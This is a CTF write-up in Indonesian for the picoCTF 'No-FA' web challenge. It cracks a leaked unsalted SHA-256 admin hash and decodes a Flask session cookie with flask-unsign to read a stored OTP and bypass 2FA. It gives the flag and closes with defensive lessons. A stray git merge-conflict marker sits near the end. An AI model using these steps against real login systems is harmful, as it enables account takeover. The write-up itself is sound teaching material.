




# No-FA - Writeup

## Challenge Information

| Field | Value |
|---|---|
| Category | Web Exploitation |
| Difficulty | Medium |
| Author | Darkraicg492 |
| Platform | picoCTF 2026 |

## Description

> Seems like some data has been leaked! Can you get the flag?

Challenge ini memberikan sebuah aplikasi web Flask dan database SQLite yang sudah bocor. Target utama dari challenge ini adalah mendapatkan flag yang hanya ditampilkan ketika user yang sedang login adalah `admin`.

---

## Initial Analysis

Saat pertama kali membuka challenge, terlihat bahwa aplikasi menyediakan fitur autentikasi sederhana berupa halaman login. Setelah melihat attachment yang diberikan, terdapat dua file penting:

- Source code aplikasi Flask: [`app.py`](attachment/app.py)
- Database SQLite: [`users.db`](attachment/users.db)

Dari sisi fitur, aplikasi memiliki beberapa bagian utama:

1. Login menggunakan username dan password.
2. Mekanisme Two-Factor Authentication atau 2FA untuk user tertentu.
3. Halaman utama yang menampilkan flag jika user yang login adalah `admin`.
4. Logout untuk menghapus status login.

Hint challenge mengarah ke wordlist populer:

```text
rockyou rockyou rockyou
```

Dugaan awalnya, karena challenge menyebutkan data leak dan terdapat database yang bocor, kemungkinan besar credential user dapat diperoleh dari database tersebut. Setelah credential ditemukan, proses berikutnya adalah mencari cara melewati 2FA milik akun admin.

Screenshot:



---

## Enumeration

Tahap enumeration dimulai dari attachment challenge. File database dicek terlebih dahulu untuk mengetahui tipe dan isinya.

```bash
file users.db
```

Output menunjukkan bahwa file tersebut adalah database SQLite:

```text
users.db: SQLite 3.x database, last written using SQLite version 3049001, file counter 2, database pages 4, cookie 0x1, schema 4, UTF-8, version-valid-for 2
```

Database kemudian dibuka menggunakan `sqlite3`:

```bash
sqlite3 users.db
```

Daftar tabel dicek dengan perintah berikut:

```sql
.tables
```

Hasilnya hanya terdapat satu tabel:

```text
users
```

Schema tabel `users` kemudian dianalisis:

```sql
.schema users
```

Schema tabel:

```sql
CREATE TABLE users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT UNIQUE NOT NULL,
    email TEXT NOT NULL,
    password TEXT NOT NULL,
    two_fa BOOLEAN NOT NULL DEFAULT 0
);
```

Dari isi tabel, ditemukan akun `admin` dengan hash password dan status 2FA aktif:

```text
5|admin|iamadmin@nfs.com|c20fa16907343eef642d10f0bdb81bf629e6aaf6c906f26eabda079ca9e5ab67|1
```

Screenshot:


Setelah itu, source code aplikasi dianalisis. Pada route `/`, flag hanya diberikan jika `session['username']` bernilai `admin`.

```python
@app.route("/")
def home():
    if 'username' not in session or session['logged'] == 'false':
        flash('Please login to access this page', 'red')
        return redirect(url_for('login'))
    
    flag = "No flag for you!!"
    if session.get('username') == 'admin':
        flag = os.getenv('FLAG')
    
    return render_template("index.html", flag=flag)
```

Artinya, untuk mendapatkan flag kita harus:

1. Login sebagai `admin`.
2. Melewati proses 2FA.
3. Mengakses halaman utama dalam kondisi session valid sebagai admin.

---

## Vulnerability Analysis

### Finding

Terdapat dua temuan utama pada challenge ini:

1. **Information Disclosure melalui database leak**
2. **2FA bypass karena OTP disimpan di client-side session cookie**

#### 1. Information Disclosure

Database yang diberikan berisi data user, termasuk hash password akun admin. Password admin disimpan sebagai hash SHA-256 tanpa salt.

Pada source code, proses validasi password dilakukan seperti berikut:

```python
if user and hashlib.sha256(password.encode()).hexdigest() == user['password']:
```

Hash admin yang ditemukan:

```text
c20fa16907343eef642d10f0bdb81bf629e6aaf6c906f26eabda079ca9e5ab67
```

Hash tersebut dianalisis dan terdeteksi sebagai SHA2-256.

Screenshot:


Karena hash tidak menggunakan salt dan hint mengarah ke `rockyou`, hash dapat dicrack menggunakan wordlist atau hash lookup. Hasil crack menunjukkan password admin adalah:

```text
apple@123
```

Screenshot:



Credential admin yang valid:

```text
username: admin
password: apple@123
```

#### 2. 2FA Bypass via Client-Side Session Cookie

Setelah username dan password benar, aplikasi membuat OTP untuk user yang memiliki 2FA aktif.

```python
otp = str(random.randint(1000, 9999))
session['otp_secret'] = otp
session['otp_timestamp'] = time.time()
session['username'] = username
session['logged'] = 'false'
```

Masalahnya, aplikasi menggunakan session default Flask. Secara default, Flask menyimpan session di cookie client-side. Cookie tersebut ditandatangani, tetapi tidak dienkripsi. Artinya, user tidak bisa memodifikasi isi cookie tanpa secret key, tetapi user tetap bisa membaca isi session.

Route `/two_fa` kemudian membandingkan OTP input user dengan nilai `otp_secret` dari session.

```python
@app.route('/two_fa', methods=['GET', 'POST'])
def two_fa():
    if request.method == 'POST':
        otp = request.form['otp']
        stored_otp = session['otp_secret']
        timestamp = session.get('otp_timestamp')
        if stored_otp and otp == stored_otp and (time.time() - timestamp) < 120:
            session['logged'] = 'true'
            flash('Login successful!', 'green')
            return redirect(url_for('home'))
        else:
            flash('Invalid OTP or OTP expired', 'red')
            return render_template('2fa.html')
    else:
        return render_template('2fa.html')
```

### Why It Works

Eksploitasi berhasil karena OTP rahasia justru disimpan di sisi client dalam cookie session Flask. Meskipun cookie tersebut signed, isinya tetap dapat didecode. Dengan membaca cookie, attacker dapat mengetahui OTP yang seharusnya hanya diketahui oleh server atau dikirim ke channel 2FA yang valid.

Selain itu, password admin dapat ditemukan karena hash password bocor dan menggunakan SHA-256 tanpa salt. Kombinasi database leak, password hashing yang lemah, dan penyimpanan OTP di client-side session membuat autentikasi admin dapat dilewati sepenuhnya.

---

## Exploitation

### Langkah 1 - Login sebagai Admin

Gunakan credential admin yang diperoleh dari hasil cracking hash:

```text
username: admin
password: apple@123
```

Screenshot:


Setelah login, aplikasi meminta OTP 4 digit karena akun admin memiliki 2FA aktif.

Screenshot:


### Langkah 2 - Ambil Cookie Session

Buka Developer Tools pada browser, lalu masuk ke bagian Application atau Storage. Pada bagian Cookies, salin nilai cookie session Flask.

Screenshot:



Cookie session yang didapat:

```text
.eJwty0sKgCAUAMC7vLVEiv_LhORLBH-oraK756LtwDyQagjowcLl0kAgUGc7Bp4d50ItjPxtxoxjutzAUqUp3alhYmNSGsU5gXtgLy7jSs7nWOD9AEfEHGg.ail1ZQ.ctTCijNjuEgZ87LUvUm4a7sPC0M
```

### Langkah 3 - Decode Cookie Flask

Cookie Flask dapat didecode menggunakan `flask-unsign`:

```bash
flask-unsign --decode --cookie '.eJwty0sKgCAUAMC7vLVEiv_LhORLBH-oraK756LtwDyQagjowcLl0kAgUGc7Bp4d50ItjPxtxoxjutzAUqUp3alhYmNSGsU5gXtgLy7jSs7nWOD9AEfEHGg.ail1ZQ.ctTCijNjuEgZ87LUvUm4a7sPC0M'
```

Output decode:

```python
{'logged': 'false', 'otp_secret': '8596', 'otp_timestamp': 1781101925.2669744, 'username': 'admin'}
```

Screenshot:



Dari hasil decode, terlihat bahwa OTP tersimpan langsung di dalam cookie session:

```text
otp_secret: 8596
```

### Langkah 4 - Masukkan OTP

Masukkan OTP `8596` pada halaman 2FA. Karena OTP tersebut sama dengan nilai `otp_secret` di session dan masih berada dalam batas waktu valid, aplikasi akan mengubah status login menjadi valid.

```python
session['logged'] = 'true'
```

Setelah itu, user diarahkan ke halaman utama sebagai admin.

---

<<<<<<< HEAD
## Flag

```text
picoCTF{n0_r4t3_n0_4uth_7bd3c284}
```

## Lesson Learned

Jangan menyimpan data sensitif seperti OTP di client-side session cookie, karena cookie Flask hanya ditandatangani, bukan dienkripsi. Selain itu, password harus di-hash menggunakan algoritma khusus password seperti bcrypt, scrypt, atau Argon2 dengan salt unik agar tidak mudah dicrack ketika database bocor.

Writer : Muhammad Afif Nuromli
=======
>>>>>>> ce1b806 (Hashgate Write up)
